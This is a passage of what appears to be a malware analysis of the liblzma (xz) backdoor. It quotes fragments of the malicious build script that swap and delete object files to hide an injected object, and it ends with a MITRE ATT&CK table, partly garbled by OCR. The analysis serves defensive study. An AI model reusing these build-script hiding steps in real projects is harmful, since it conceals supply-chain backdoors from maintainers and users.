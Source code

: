 - This is the `else` for the crc32 compilation failing. Restore from backups.

```
    else
        mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
    fi
```

- This is the else for the crc64 compilation failing. Restore from backup.

```
    rm -f liblzma_la-crc64-fast.o || true
```

- End of the `Makefile` section of the script. Delete the backup.

```
fi
eval $DHLd
```

- Close the “elif we’re in a Makefile”, one more extension point/debug print, and we’re done! The script has injected the object file into the objects built during make, leaving no trace behind.

## **4. MITRE ATT&CK Metrics**

| Tactic         | T-ID  | Technique                         |
| -------------- | ----- | --------------------------------- |
| Reconnaissance | T1592 | Gather Victim Host Information    |
|                | T1591 | Gather Victim Org Information     |
|                | T1590 | Gather Victim Network Information |

| Resource
Development | T1650 | Acquire Access |
| Persistence | T1543 | Create or Modify System Process |
| | T1133 | External Remote Services |
| | T1574 | Hijack Execution Flow |
| | T1556 | Modify Authentication Process |
| Privilege
Escalation | T1543 | Create or Modify System Process |
| | T1055 | Process Injection |
| | T1574 | Hijack Execution Flow |
| Initial
Access | T1133 | External Remote Services |
| | T1195 | Supply Chain Compromise |
| | T1199 | Trusted Relationship |
| Execution | T1072 | Software Deployment Tools |
| | T1569 | System Services |
| Defense
Evasion | T1564 | Hide Artifacts |
| | T1140 | Deobfuscate/Decode Files or Information |
| | T1036 | Masquerading |
| | T1055 | Process Injection |